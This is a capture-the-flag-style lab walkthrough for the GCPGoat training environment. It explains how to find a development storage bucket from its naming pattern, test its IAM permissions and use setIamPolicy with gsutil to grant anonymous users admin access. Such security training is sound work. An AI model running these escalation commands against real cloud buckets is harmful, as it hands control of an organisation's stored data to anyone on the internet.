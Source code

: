 In this first part of the lab, we will exploit misconfigured Google Cloud Storage (GCS) bucket policies to gain administrative access to one of the storage buckets.

## Lab Walkthrough

### Phase 1: Reconnaissance and Discovery

#### 1. Identify Storage Buckets from the Web Application

Navigate to the GCPGoat application and open any blog post from the homepage.

![GCPGoat application homepage](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-01.png)

#### 2. Locate Cloud-Hosted Resources

Right-click on an image in the blog post and open it in a new tab.

![Blog post with image](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-02.png)

#### 3. Extract Bucket Information

Examine the image URL in the address bar, noting that it's served from a Google Cloud Storage bucket.

![Image URL showing Google Cloud Storage bucket](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-03.png)

Extract the bucket name that appears after `storage.googleapis.com/` in the URL. This will likely contain "prod" in its name.

### Phase 2: Initial Access Testing

#### 4. Test Production Bucket Access

Attempt to list the bucket's contents by visiting:

```
https://storage.googleapis.com/<PROD_BUCKET_NAME>
```

![Access denied error for production bucket](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-04.png)

As expected, you'll receive an "Access Denied" error since public access to bucket listings is typically restricted.

#### 5. Evaluate Bucket Permissions

Use the TestIamPermissions API to determine what permissions you currently have on the production bucket:

```
https://www.googleapis.com/storage/v1/b/<PROD_BUCKET_NAME>/iam/testPermissions?permissions=storage.buckets.delete&permissions=storage.buckets.get&permissions=storage.buckets.getIamPolicy&permissions=storage.buckets.setIamPolicy&permissions=storage.buckets.update&permissions=storage.objects.create&permissions=storage.objects.delete&permissions=storage.objects.get&permissions=storage.objects.list&permissions=storage.objects.update
```

![Test IAM permissions for production bucket](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-05.png)

The results show limited permissions, typically only `storage.buckets.get`.

### Phase 3: Discovering Development Environment

#### 6. Apply the Dev Environment Naming Pattern

Organizations often use consistent naming patterns across environments. Try accessing a development version of the bucket by replacing "prod" with "dev" in the bucket name:

```
https://storage.googleapis.com/<DEV_BUCKET_NAME>
```

![Access denied for development bucket](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-06.png)

You may still receive an "Access Denied" error, but this confirms the existence of a development bucket.

#### 7. Check Development Bucket Permissions

Test permissions on the development bucket using the same TestIamPermissions API:

```
https://www.googleapis.com/storage/v1/b/<DEV_BUCKET_NAME>/iam/testPermissions?permissions=storage.buckets.delete&permissions=storage.buckets.get&permissions=storage.buckets.getIamPolicy&permissions=storage.buckets.setIamPolicy&permissions=storage.buckets.update&permissions=storage.objects.create&permissions=storage.objects.delete&permissions=storage.objects.get&permissions=storage.objects.list&permissions=storage.objects.update
```

![Test IAM permissions for development bucket showing expanded access](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-07.png)

Notice that the development bucket has more permissive settings, granting:
- `storage.buckets.getIamPolicy`: Ability to view IAM policies
- `storage.buckets.setIamPolicy`: Ability to modify IAM policies

These additional permissions represent a significant security misconfiguration.

### Phase 4: Privilege Escalation

#### 8. Examine Current IAM Policy

Use the `gsutil` command-line tool to view the current IAM policy of the development bucket:

```bash
gsutil iam get gs://<DEV_BUCKET_NAME>
```

![Current IAM policy for development bucket](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-08.png)

The output reveals that `allUsers` (public anonymous access) already has some permissions through a custom role.

#### 9. Escalate Privileges

Exploit the `setIamPolicy` permission to grant admin access to all anonymous users:

```bash
gsutil iam ch allUsers:admin gs://<DEV_BUCKET_NAME>
```

![Adding admin role to allUsers](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-09.png)

This command modifies the bucket's IAM policy to give administrative privileges to anyone on the internet.

#### 10. Verify Privilege Escalation

Confirm that the changes were applied successfully:

```bash
gsutil iam get gs://<DEV_BUCKET_NAME>
```

![Updated IAM policy showing admin access](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-10.png)

The output should now show that `allUsers` have been granted the `admin` role.

### Phase 5: Exploiting Admin Access

#### 11. Confirm Extended Permissions

Validate your expanded permissions using the TestIamPermissions API again:

```
https://www.googleapis.com/storage/v1/b/<DEV_BUCKET_NAME>/iam/testPermissions?permissions=storage.buckets.delete&permissions=storage.buckets.get&permissions=storage.buckets.getIamPolicy&permissions=storage.buckets.setIamPolicy&permissions=storage.buckets.update&permissions=storage.objects.create&permissions=storage.objects.delete&permissions=storage.objects.get&permissions=storage.objects.list&permissions=storage.objects.update
```

![Expanded permissions after privilege escalation](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-11.png)

You should now have full access to all requested permissions, including object listing, creation, update, and deletion.

#### 12. Access Bucket Contents

Browse the contents of the development bucket:

```
https://storage.googleapis.com/<DEV_BUCKET_NAME>
```

![Successfully listing bucket contents](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-12.png)

You can now view all objects stored in the bucket.
